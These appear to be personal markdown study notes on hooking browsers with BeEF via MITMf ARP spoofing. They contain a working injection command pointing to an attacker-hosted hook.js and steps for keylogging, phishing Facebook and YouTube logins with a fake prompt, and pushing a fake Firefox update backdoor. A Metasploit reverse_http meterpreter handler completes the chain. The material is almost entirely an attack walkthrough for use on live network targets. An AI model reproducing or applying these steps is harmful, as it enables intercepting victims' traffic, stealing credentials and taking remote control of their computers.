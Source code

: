 ### Beef - Hooking targets using MITMF
copy the code from beef (next to Example:)
`root@kali:~# mitmf --arp --spoof --gateway 10.20.14.1 --targets 10.20.14.206 -i eth0 --inject --js-url http://10.20.14.207:3000/hook.js`

http://10.20.14.207:3000/hook.js is the url where the hook is stored.

When they browse any website, they are hooked.
(You can see it in the source code of the website that the code is injected.)

### Running basic commands on the target computer
In the 'commands' tab, 
```
Search for `raw javascript`
Here you can implement any javascriptcode you want, E.g. Keylogger!
```
```
Search for 'Spider Eye'
This command takes a screenshot of the targets computer.
```
```
Search for 'Redirect Browser'
This command redirects the target to any page you want,
you also can let the target download an update.
```

### Beef - Steal usernames and passwords using a fake login prompt
### --- !!! ---
```
Search for 'Pretty theft'
Choose the account you want to hijack. (Facebook, youtube,...)
```

### Beef - Gaining full control over the target pc
### --- !!! ---
```
Search for 'Fake notification bar'
Choose the correct webbrowser
This will give the target a notification that there is an update needed to install
use an own created backdoor (reverse http to get meterpreter access)
upload to your own webserver
Plugin URL is `http://10.20.14.207/update.exe`
ip address is own webservers ip address and update.exe is the exploit (backdoor)
Notification: 'Critical update for Firefox, click here to install'
Before running this command, you need to be listening on the port your backdoor tries to connect with.
> msfconsole
> use exploit/multi/handler
> show options
> set PAYLOAD windows/meterpreter/reverse_http
LHOST eigen ip
LPORT 8080
> exploit
```
